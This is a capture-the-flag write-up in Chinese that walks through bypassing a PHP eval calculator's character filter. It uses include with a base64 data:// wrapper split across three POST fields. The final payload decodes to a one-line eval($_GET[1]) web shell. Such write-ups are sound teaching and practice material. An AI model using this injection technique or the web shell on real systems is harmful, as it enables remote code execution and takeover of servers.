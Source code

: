 先看代码
~~~
<?php


if(check($code)){

    eval('$result='."$code".";");
    echo($result);    
}

function check(&$code){

    $num1=$_POST['num1'];
    $symbol=$_POST['symbol'];
    $num2=$_POST['num2'];

    if(!isset($num1) || !isset($num2) || !isset($symbol) ){
        
        return false;
    }

    if(preg_match("/!|@|#|\\$|\%|\^|\&|\(|_|=|{|'|<|>|\?|\?|\||`|~|\[/", $num1.$num2.$symbol)){
        return false;
    }

    if(preg_match("/^[\+\-\*\/]$/", $symbol)){
        $code = "$num1$symbol$num2";
        return true;
    }

    return false;
}

~~~
从题目代码来看，是输入3个值，分别是num1、符号值、num2\
然后过滤了一大堆符号，这种就是最直接的提示，没过滤哪个，就用哪个\
然后把3个值拼接起来进行执行\
既然是eval就是代码执行，但是又不能用括号，那么只能用不用括号的函数了，那么答案很显然\
php中不需要括号使用的函数，叫做语言结构，常见的有include、require、echo等

那么思路有了，要使用include来执行代码，那么显而易见，肯定要用到伪协议了\
我们只需要构造出一个data的伪协议看看\
正常的伪协议包含是这样的
~~~
include "data://text/plain,<?php phpinfo();?>"
~~~
但是呢，题目不能用括号和< 随意需要对执行的代码进行编码\
使用data协议的第二种写法
~~~
include "data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+"
~~~
观察符号，刚好都在可以用的范围之内\
可以拆分给三个变量分别复制
~~~
$num1 = "include data:/";
$symbol = "/";
$num2 = "text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+"

$num1$symbol$num2="include data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+"
~~~
放到eval里面后，就能代码执行了,使用更优雅的写法
~~~
num1=include "data:ctfshow&symbol=/&num2=b;base64,PD9waHAgZXZhbCgkX0dFVFsxXSk7Pz4";
~~~


